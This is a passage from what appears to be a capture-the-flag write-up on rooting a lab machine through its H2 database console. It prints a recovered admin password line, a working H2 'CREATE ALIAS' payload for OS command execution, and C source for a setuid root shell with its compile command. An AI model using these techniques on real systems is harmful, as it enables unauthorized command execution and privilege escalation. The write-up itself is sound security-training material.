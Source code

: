 ```

root@kali# strings test.mv.db | grep ADMIN
CREATE USER IF NOT EXISTS SA PASSWORD 'dfdf' ADMIN

```

Then zip, upload to target, and point restore at the zip.

This method is super flaky. I got it to work a couple times, but have had it not work many more. Often, I end up corrupting the database.

### Root #2 - Root Shell via Console and Alias Shell Exec

With access to the panel, I can get code execution. There’s a neat blog post that describes how to get command execution through the H2 console here: https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

First, I’ll create an alias that gives shell execution by running this:

```

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;

```

Then, I can call it to see the output:

![](https://0xdfimages.gitlab.io/img/hawk-shellexec.gif)

I actually had a surprisingly difficult time going from this code execution to a shell. I tried the standard [reverse shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), but none seemed to work. I tried adding to the sudoers file, but that didn’t work either. I can’t explain this yet (if you can, leave a comment).

Even if you can’t run the commands directly, there are tons of ways to get to root from here.

The first thing I did get to work was to create a setuid binary, starting with this c code:

```

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
    setreuid(0, 0);
    execve("/bin/sh", NULL, NULL);
}

```

Compiled:

```

root@kali# gcc -o shell /opt/shells/setuid/exec.c

```
